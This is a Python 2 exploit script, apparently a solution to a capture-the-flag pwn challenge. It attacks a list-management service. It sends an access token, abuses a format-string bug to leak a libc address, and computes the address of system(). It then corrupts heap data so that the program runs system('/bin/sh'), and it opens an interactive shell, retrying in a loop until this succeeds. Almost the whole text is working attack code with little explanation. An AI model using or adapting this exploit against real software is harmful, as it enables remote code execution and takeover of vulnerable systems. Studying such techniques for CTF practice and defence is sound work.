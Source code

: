 ```
		io.recvuntil('please input you token: ')
		io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
#------------------------------------------------use fsb to leak __libc_start_main's address
	create_list(io,'10','aaaa')
	create_list(io,'10','bbbb')
	create_list(io,'10','cccc')
	delete_list(io,'0')
	delete_list(io,'1')
	delete_list(io,'2')
	content1 = "%175$p".ljust(24,'a')+'\xd0\xf9\x00'
	create_list(io,'29',content1)
	delete_list(io,'1')                     #-----printf('%113$p')

	data = io.recv(14)
	libc_start_main = int(data,16)-240
	print "libc_start_main_addr="+hex(libc_start_main)
#--------------------------------------------------caculate system_addr	
	libc_start_main_offset = libc.symbols['__libc_start_main']
	system_addr = libc.symbols['system']
	system_addr = libc_start_main  - libc_start_main_offset + system_addr
	print "system_addr=" + hex(system_addr)

	create_list(io,'10','zzzz\x00')

	create_list(io,'10','aaaa\x00')
	create_list(io,'10','bbbb\x00')
	create_list(io,'10','cccc\x00')
	delete_list(io,'2')
	delete_list(io,'3')
	delete_list(io,'4')
#----------can't have '\x00' in string.because len(string) must >15.And after '/bin/sh' must have a space.
	content2 = "/bin/sh #".ljust(24,'a')+ p64(system_addr)  
	create_list(io,'32',content2)
	delete_list(io,'3')                     #system('/bin/sh')
	
	io.sendline('uname -a')
	io.interactive()



if __name__ == '__main__':
	while True:
		try:
			pwn()
		except EOFError:
			print 'guess not success!!!'
			io.close()
			time.sleep(0.5)
```
